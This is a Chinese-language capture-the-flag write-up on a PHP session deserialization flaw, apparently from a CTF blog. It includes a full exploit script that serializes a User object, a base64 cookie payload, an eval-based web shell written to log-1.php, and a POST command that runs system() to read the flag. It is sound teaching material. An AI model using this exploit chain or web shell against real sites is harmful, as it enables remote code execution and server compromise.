

# 知识点
[深入浅析PHP的session反序列化漏洞问题_php实例_脚本之家](https://www.jb51.net/article/116246.htm)
# 思路
本题考查session反序列话漏洞<br />相关讲解 [深入浅析PHP的session反序列化漏洞问题_php实例_脚本之家](https://www.jb51.net/article/116246.htm)<br />我们登录进去只有一个登录页面和check.php<br />用dirsearch扫一下，发现www.zip文件，访问下载下来是网站源码。<br />代码审计后主要有几个关键区域。<br />在index.php 17行 我们发现$_SESSION['limit']我们可以进行控制
```plsql
	//超过5次禁止登陆
	if(isset($_SESSION['limit'])){
		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
	}else{
		 setcookie("limit",base64_encode('1'));
		 $_SESSION['limit']= 1;
	}
```
flag在flag.php处，目测需要rce
```plsql
$flag="flag_here";
```
inc.php 设置了session的序列化引擎为php，很有可能说明默认使用的是php_serialize
```plsql
ini_set('session.serialize_handler', 'php');
```
并且inc.php中有一个User类的__destruct含有file_put_contents函数，并且username和password可控，可以进行文件包含geshell
```plsql
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
```
开始构造EXP，生成payload
```plsql
<?php
  class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
  }

  $a = new User('1.php', '<?php eval($_POST[Ki1ro]) ?>');
  $a->setStatus('成功');
  echo base64_encode('|'.serialize($a));
?>

```
在开发者工具的控制台替换cookie
```plsql
document.cookie='limit=
fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo1OiIxLnBocCI7czo4OiJwYXNzd29yZCI7czoyODoiPD9waHAgZXZhbCgkX1BPU1RbS2kxcm9dKSA/PiI7czo2OiJzdGF0dXMiO3M6Njoi5oiQ5YqfIjt9
'
```
访问index.php改写$_SESSION['limit']<br />再访问inc/inc.php触发会话，将shell写入log-1.php<br />最后访问log-1.php传参获取flag
```plsql
POST Ki1ro=system("tac flag.php")
```

